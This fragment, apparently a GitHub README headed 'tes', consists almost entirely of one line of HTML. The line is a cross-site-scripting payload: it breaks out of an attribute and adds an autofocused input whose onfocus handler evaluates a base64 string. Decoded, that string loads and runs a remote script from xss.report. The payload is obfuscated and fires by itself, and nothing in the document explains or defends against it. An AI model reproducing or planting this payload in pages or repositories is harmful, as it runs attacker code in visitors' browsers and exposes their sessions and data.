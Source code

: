 # tes
">&lt;input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2wiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>

